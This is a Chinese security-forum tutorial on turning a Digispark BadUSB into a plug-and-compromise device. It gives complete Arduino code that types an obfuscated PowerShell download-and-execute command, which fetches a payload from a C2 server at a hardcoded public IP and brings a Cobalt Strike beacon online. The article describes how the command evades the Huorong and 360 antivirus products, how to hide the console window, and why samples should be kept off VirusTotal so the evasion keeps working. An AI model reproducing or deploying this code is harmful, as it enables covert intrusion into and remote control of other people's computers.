



# BadUsb 实现免杀及插及上线 C2 服务器 - 先知社区

BadUsb 实现免杀及插及上线 C2 服务器

- - -

# 0x01 准备阶段

1.  购买 BadUsb，我购买的是 Digispark。

[](https://xzfile.aliyuncs.com/media/upload/picture/20230505153939-fdb3b88a-eb17-1.jpg)

1.  安装 Arduino IDE
    
2.  配置 Arduino IDE，添加开发板，安装驱动。
    
    参考链接：[https://www.jianshu.com/p/b33d61fc2678](https://www.jianshu.com/p/b33d61fc2678)
    
3.  掌握 Digispark 编程语法。（语法较简单，可以边查边写）
    

至此，BadUsb 和开发环境均已配置完毕，可以开始编写代码。

# 0x02 编写代码

编写代码前，我们首先要了解 BadUsb 的大致原理，本质上就是插入电脑后可以模拟键盘输入，既然是模拟键盘输入，我们可以先写出一个大致的代码框架。

```bash
#include "DigiKeyboard.h"
#define MOD_SHIFT_LEFT      (1<<1)
#define MOD_CONTROL_LEFT    (1<<0)
#define KEY_ENTER   40
#define KEY_CAPS_LOCK 0x39

void setup() {
DigiKeyboard.delay(2000);
DigiKeyboard.sendKeyStroke(0);
DigiKeyboard.delay(2000);
DigiKeyboard.sendKeyStroke(KEY_R,MOD_GUI_LEFT); //win+r
DigiKeyboard.delay(500);
DigiKeyboard.print(F("cmd")); //输入 cmd
DigiKeyboard.delay(500);
DigiKeyboard.sendKeyStroke(KEY_ENTER); //回车
DigiKeyboard.delay(500);
//后面输入恶意代码
}

void loop() {
}
```

这段代码先声明了一些键盘按键代表的字符，然后通过键盘唤起 CMD。其中插入 BadUsb 后间隔 2 秒开始执行程序，每次输入字符后都间隔 0.5s。

代码框架编写完成后，就可以开始构造我们的免杀恶意代码了。

要想通过键盘输入上线的我们的 C2 服务器，有 2 种思路。通过 powershell 命令上线 或 通过命令行文件下载恶意文件上线。

1.  文件下载上线
    
    考虑到免杀问题，certutil 这些常见的命令几乎被所有杀软拦截，网上公开的绕过方法（例如双写 certutil）可以绕过火绒，但 360 无法绕过。
    
    文件成功下载后，恶意文件的免杀也具有一定局限性，所以如果考虑免杀，那么通过文件下载这种模式来实现 BadUsb 上线存在很大难度。
    
2.  powershell 命令上线
    

​ powershell 上线也分两种方式

​ (1) 通过 ps1 文件上线

[](https://xzfile.aliyuncs.com/media/upload/picture/20230505154010-10582822-eb18-1.png)

ps1 文件免杀效果好，Github 有很多针对 ps1 文件的免杀项目，可以轻松绕过国内主流杀软。

[](https://xzfile.aliyuncs.com/media/upload/picture/20230505154043-241c5a0e-eb18-1.png)

但 ps1 文件庞大的代码量又带来了一个问题，在我们编写完成代码框架后，使用 Arduino IDE 进行编译，提示“当前已使用了 45% 的存储空间”，而如果我们将 ps1 文件中的全部代码编译，则会存在闪存空间不足的问题。

[](https://xzfile.aliyuncs.com/media/upload/picture/20230505154108-331f3dc8-eb18-1.png)

[](https://xzfile.aliyuncs.com/media/upload/picture/20230505154126-3d87bbc8-eb18-1.png)

有 2 种办法解决这个问题，使用钞能力购买闪存更大的开发板，或精简我们的 ps1 文件内容。至此通过 ps1 文件上线这个思路也在这里断了。

​ (2) 通过 web 服务上线

[](https://xzfile.aliyuncs.com/media/upload/picture/20230505154154-4e262e6a-eb18-1.png)

通过这种方法生成的 payload 较为精简，不存在闪存不足的问题，只需要针对性的做一下免杀即可。

这里给出我免杀的方法，设置别名+^字符间隔 + 加号拼接字符串。

```bash
cmd /c echo set-alias -name xz -value IEX;x^z (New-Object "NeT.WeBClienT").d^o^w^n^l^o^a^d^s^t^r^i^n^g('ht'+'tP://19'+'2.168.1.1'+'/a') | p^o^w^e^r^s^h^e^l^l -
```

这里没有添加后台运行 powershell 的参数，因为 hidden 参数会影响免杀效果，这样的运行方式实测可以绕过火绒和 360。

那么代码就算是初步完成了，如下。

```bash
#include "DigiKeyboard.h"
#define MOD_SHIFT_LEFT      (1<<1)
#define MOD_CONTROL_LEFT    (1<<0)
#define KEY_ENTER   40
#define KEY_CAPS_LOCK 0x39

void setup() {
DigiKeyboard.delay(2000);
DigiKeyboard.sendKeyStroke(0);
DigiKeyboard.delay(2000);
DigiKeyboard.sendKeyStroke(KEY_R,MOD_GUI_LEFT); //win+r
DigiKeyboard.delay(500);

// powershell 上线 免杀火绒 360 窗口不隐藏  需要点鼠标杀软放行
DigiKeyboard.print(F("cmd")); //输入 cmd
DigiKeyboard.delay(500);
DigiKeyboard.sendKeyStroke(KEY_ENTER); //回车
DigiKeyboard.delay(500);
DigiKeyboard.print(F("cmd /c echo set-alias -name xz -value IEX;x^z (New-Object "NeT.WeBClienT").d^o^w^n^l^o^a^d^s^t^r^i^n^g('ht'+'tP://19'+'2.168.1.1'+'/a') | p^o^w^e^r^s^h^e^l^l -")); //POWERSHELL 上线
DigiKeyboard.delay(500);
DigiKeyboard.sendKeyStroke(KEY_ENTER); //回车
}

void loop() {
}
```

# 0x03 代码优化

将写好的代码编译并烧录进 BadUsb 后，其实效果并没有那么理想，有如下几个问题：

1、部分电脑存在默认中文输入法，在模拟键盘输入的过程中会存在中文输入，未达到预期输入的内容

解决方案：开始模拟键盘输入前锁定大小写，相应的我们的免杀代码也要做出对应的大小写修改。

```bash
DigiKeyboard.sendKeyStroke(KEY_CAPS_LOCK); //锁定大小写，防止默认中文输入法

DigiKeyboard.print(F("cmd /c echo set-alias -name xz -value IEX;x^z (New-Object \"NeT.WeBClienT\").d^o^w^n^l^o^a^d^s^t^r^i^n^g('ht'+'tP://19'+'2.168.1.1'+'/A’) | p^o^w^e^r^s^h^e^l^l -")); //POWERSHELL 上线 路径大小写都要有 a A
```

2、powershell 运行完毕后，桌面留下一个黑框非常显眼。

解决方案：模拟键盘输入 wind+d 返回桌面隐藏 cmd 黑框，上线 cs 后立即迁移进程即可。

最终优化后的代码如下

```bash
#include "DigiKeyboard.h"
#define MOD_SHIFT_LEFT      (1<<1)
#define MOD_CONTROL_LEFT    (1<<0)
#define KEY_ENTER   40
#define KEY_CAPS_LOCK 0x39

void setup() {
DigiKeyboard.delay(2000);
DigiKeyboard.sendKeyStroke(0);
DigiKeyboard.delay(2000);
DigiKeyboard.sendKeyStroke(KEY_R,MOD_GUI_LEFT); //win+r
DigiKeyboard.delay(500);
DigiKeyboard.sendKeyStroke(KEY_CAPS_LOCK); //锁定大小写，防止默认中文输入法
DigiKeyboard.delay(500);

// powershell 上线 免杀火绒 360 窗口不隐藏  需要点鼠标杀软放行
DigiKeyboard.print(F("cmd")); //输入 cmd
DigiKeyboard.delay(500);
DigiKeyboard.sendKeyStroke(KEY_ENTER); //回车
DigiKeyboard.delay(500);
DigiKeyboard.print(F("cmd /c echo set-alias -name xz -value IEX;x^z (New-Object \"NeT.WeBClienT\").d^o^w^n^l^o^a^d^s^t^r^i^n^g('ht'+'tP://4'+'3.138.111.78'+'/A') | p^o^w^e^r^s^h^e^l^l -")); //POWERSHELL 上线 路径大小写都要有 a A
DigiKeyboard.delay(500);
DigiKeyboard.sendKeyStroke(KEY_ENTER); //回车
DigiKeyboard.delay(500);
DigiKeyboard.sendKeyStroke(KEY_D,MOD_GUI_LEFT); //win+d
}

void loop() {
}
```

至此，实现了免杀火绒 360 BadUsb 即插即上线 CS。

# 0x04 结语

这篇文章是在我能力范围之内想出的 BadUsb 免杀上线的思路，希望能给各位师傅提供思路，如果师傅有更为新颖高效的思路也欢迎交流。

同时免杀不易，请珍惜当前可用的免杀方式，不要放在微步、VT 等平台检测免杀效果。

最后附上参考链接：

[https://www.jianshu.com/p/b33d61fc2678](https://www.jianshu.com/p/b33d61fc2678)

[https://lzy-wi.github.io/2018IAMHUAPIDAN!/06/12/badusb/](https://lzy-wi.github.io/2018/06/12/badusb/)

[https://www.cnblogs.com/binglicheng/p/11615535.html](https://www.cnblogs.com/binglicheng/p/11615535.html)

[https://blog.csdn.net/qq\_34341458/article/details/123368269](https://blog.csdn.net/qq_34341458/article/details/123368269)

[https://blog.csdn.net/weixin\_52444045/article/details/126432290](https://blog.csdn.net/weixin_52444045/article/details/126432290)
